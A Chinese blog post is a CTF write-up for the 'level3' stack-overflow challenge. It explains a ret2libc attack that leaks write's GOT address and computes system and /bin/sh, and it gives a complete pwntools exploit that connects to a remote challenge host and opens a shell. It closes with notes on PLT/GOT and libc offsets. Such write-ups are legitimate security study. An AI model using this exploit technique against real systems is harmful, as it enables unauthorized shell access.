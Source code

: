```yaml
---
layout:     post
title:      PWN栈溢出入门题LEVEL3解题思路
subtitle:   pwn
date:       2020-12-26
author:     tanghaidong
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - ctf
---
```


## 解题思路

拿到题目将文件下载下来拖入ubuntu，
发现这一次的文件比较特殊：是一个linux环境下的压缩包，自然而然想到的是解压它
![在这里插入图片描述](https://www.freesion.com/images/33/4e79c4afbba21b48eb59745f34735251.png)
通过命令行`tar -xvf level.tar` 将其解压出来 发现有两个文件：level和libc

都拖入IDA
![在这里插入图片描述](https://www.freesion.com/images/849/d69cc11fe065a43fa0391ac3ff4c4a19.png)
![在这里插入图片描述](https://www.freesion.com/images/686/1910a9c7f0003bab2c9916869a369ba6.png)
![在这里插入图片描述](https://www.freesion.com/images/910/e53dbd578be77f58e9a23c81a9362456.png)
特殊的地方在：本题没有直接给出system和bin/sh的位置，但是文件中有个write函数可以利用
我们IDA打开libc文件（关于libc文件是什么有什么 会在总结写到）
总体思路为：我们通过read函数的栈溢出漏洞写入垃圾数据填充后溢出，利用write函数返回函数write真实地址 然后通过利用函数在内存中的地址和libc文件中的偏移的差相等，来获取基址，通过基址来获取system和/bin/sh的地址，再第二次利用read写入，获得shell。

编写exp

```python
from pwn import *
r=remote('220.249.52.134',47355)
elf=ELF("./level3")

writeplt=elf.plt["write"]
writegot=elf.got["write"]
func=elf.symbols["vulnerable_function"]

libc=ELF("./libc_32.so.6")
writelibc=libc.symbols["write"]
syslibc=libc.symbols["system"]
binlibc=libc.search("/bin/sh").next()

payload1='a'*0x88+'aaaa'+p32(writeplt)+p32(func)+p32(1)+p32(writegot)+p32(4)
r.recvuntil("Input:\n")
r.sendline(payload1)

writeaddr=u32(r.recv(4))

sysaddr=writeaddr-writelibc+syslibc
binaddr=writeaddr-writelibc+binlibc
payload2='a'*0x88+'bbbb'+p32(sysaddr)+p32(0xaaaa)+p32(binaddr)
r.recvuntil("Input:\n")
r.sendline(payload2)
r.interactive()
12345678910111213141516171819202122232425
```

![在这里插入图片描述](https://www.freesion.com/images/757/4b67ffbfe8880ab4eeb63efccf2af845.png)
获取flag

## 个人总结

### 有关PLT表和GOT表（动态链接）

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表。
如果一个elf可执行文件需要调用定义在共享库中的任何函数，那么它就有自己的GOT和PLT。
PLT表称为过程链接表（procedure linkage table）。
GOT表称为全局偏移量表（global offset table）。
GOT表中存储真正的函数地址。
**PLT表中存储的是GOT表中的地址。**
PLT[0]是一个函数，这个函数的作用是通过GOT[1]和GOT[2]来正确绑定一个函数的正式地址到GOT表中来。
GOT[0]包含.dynamic段的地址，.dynamic段包含了动态链接器用来绑定过程地址的信息，比如符号的位置和重定位信息。
GOT[1]包含动态链接器的标识。
GOT[2]包含动态链接器的延迟绑定代码的入口点。
GOT表中正式的函数地址要从**GOT[3]开始**，也就是第四项。
被调用函数GOT相应表目中存储的最初地址为相应PLT表目中第二条指令的地址值。
函数第一次被调用后．GOT表目中的值就为函数的真正地址。
第一次调用函数时开销比较大．但是其后的每次调用都只会花费一条指令和一个间接的存储器引用。
PLT[1]对应GOT[3]，PLT[2]对应GOT[4]，依次类推。
plt表只在程序调用函数之前有用，**调用函数之后第二次执行这个函数就不会经过plt表**。
**第一次调用函数**
![在这里插入图片描述](https://www.freesion.com/images/710/210eb484245aae52d19bb24484305d2e.png)
**第二次调用函数时**
![在这里插入图片描述](https://www.freesion.com/images/620/4e5c6dad4abb22b4e70a3e53516508fc.png)

原文链接：https://blog.csdn.net/ATFWUS/article/details/104563414

### LIBC.SO.6文件的作用

libc.so.6指CC语言标准库

在一些CTF的PWN题目中，经常可以看到题目除了提供ELF文件之外还提供了一个libc.so.6文件
如果我们可以利用目标程序的漏洞来泄漏某一个函数的地址，那么我们就可以计算出system函数的地址了，当然，被泄露地址的函数必须也定义在libc.so.6中（libc.so.6中通常也存在有/bin/bash或者/bin/sh这个字符串）。

计算system函数地址的基本原理是，在libc.so.6中，各个函数的相对地址是固定的，比如函数A相对于libc.so.6的起始地址为addr_A，函数B相对于libc.so.6的起始地址为addr_B，那么，如果我们能够泄漏进程内存空间中函数A的地址address_A，那么函数B在进程空间中的地址就可以计算出来了，为address_A + addr_B - addr_A

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正